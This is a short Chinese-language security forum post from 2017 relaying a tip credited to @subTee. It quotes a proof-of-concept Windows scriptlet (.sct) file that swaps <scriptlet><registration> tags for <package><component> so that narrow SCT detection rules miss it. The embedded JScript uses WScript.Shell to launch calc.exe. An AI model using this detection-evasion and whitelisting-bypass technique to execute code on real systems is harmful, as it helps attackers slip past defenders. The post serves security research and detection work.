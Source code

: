#接上面那条 SCT 的白名单下载技巧，推上发现 @subTee  又扔出一个小技巧...

tags: #姿势#, 

接上面那条 SCT 的白名单下载技巧，推上发现 @subTee  又扔出一个小技巧：

Hope your SCT detection is richer than looking for 
<scriptlet><registration>
Cause <package><component> works too 😀

代码在这：
[https://gist.github.com/subTee/7cec8af1ae9b9493731...](https://gist.github.com/subTee/7cec8af1ae9b9493731b8ec70e2cf034) 

拷贝过来如下：

<?xml version="1.0"?>
<package>
  <comment>
    
  </comment>

  <component id="ABAPTest">
    <?component error="true" debug="true"?>

    <registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >

	<script >
		<![CDATA[

			var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	

		]]>
	</script>
</registration>

  </component>
</package>

也真只有吃透 Win，才能 hack 出更多独特玩法啊。

[comment]: <> (topic_id:51288554228124)

[comment]: <> (create_time:2017-06-21T12:10:55.591+0800)

[comment]: <> (topic_type:talk)

[comment]: <> (owner:781244882_余弦)

